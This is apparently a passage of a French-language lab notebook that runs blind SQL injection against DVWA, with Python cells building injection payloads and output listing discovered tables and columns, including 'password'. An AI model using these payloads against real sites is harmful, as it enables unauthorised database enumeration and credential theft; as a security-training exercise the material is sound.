 
```python
tables_wordlist = open('wordlist/tables.txt', 'r')
Lines = tables_wordlist.readlines()
tables_found = []

wordlist_of_tables = "wordlist/tables.txt"
sql_start = "' or EXISTS ( SELECT 1 FROM information_schema.tables WHERE table_schema = '"+ db_name +"' AND table_name LIKE '"
sql_end = "') -- -"
tables_found = send_request_with_wordlist(wordlist_of_tables, sql_start, sql_end)
tables_found
```

    [FOUND] =  users
    [FOUND] =  User_
    [FOUND] =  Users
    [FOUND] =  guestbook





    ['users', 'User_', 'Users', 'guestbook']



### 4. Colonnes de la table "users"

Pour trouver les colonnes de la table 'users', nous allons utiliser une wordlist des noms de colonnes les plus communs.
La wordlist a été téléchargée de puis  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt


```python
columns_found = []
wordlist_of_columns = "wordlist/colonnes.txt"
sql_start = "' OR EXISTS (SELECT 1 FROM information_schema.columns WHERE table_schema = 'dvwa'  AND table_name = 'users' AND column_name = '"
sql_end = "') -- -"
columns_found = send_request_with_wordlist(wordlist_of_columns, sql_start, sql_end)

print("les colonnes trouvées dans la table users sont : ")
print(columns_found)
```

    [FOUND] =  user_id
    [FOUND] =  first_name
    [FOUND] =  last_name
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  last_login
    [FOUND] =  user_id
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  avatar
    les colonnes trouvées dans la table users sont : 
    ['user_id', 'first_name', 'last_name', 'password', 'user', 'last_login', 'user_id', 'password', 'user', 'avatar']
